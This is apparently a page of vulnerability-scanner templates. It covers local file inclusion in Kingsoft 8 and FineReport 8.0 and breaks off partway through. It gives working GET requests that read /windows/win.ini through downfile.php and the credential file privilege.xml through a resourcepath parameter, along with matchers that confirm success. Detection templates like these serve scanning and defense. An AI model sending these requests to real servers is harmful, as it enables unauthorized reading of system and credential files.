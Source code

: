 - Kingsoft 8 is vulnerable to local file inclusion.
- severity - high
- tags - kingsoft,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/htmltopdf/downfile.php?filename=/windows/win.ini

### Matchers

**Type - word**

- part - body
- words
  1. for 16-bit app support
  2. [extensions]
- condition - and

**Type - word**

- part - header
- words
  1. application/zip

**Type - status**

- status
  1. 200

---

# FineReport 8.0 - Local File Inclusion

## Description

- FIneReport 8.0 is vulnerable to local file inclusion.
- severity - high
- tags - finereport,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
- {{BaseURL}}/report/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml

### Matchers
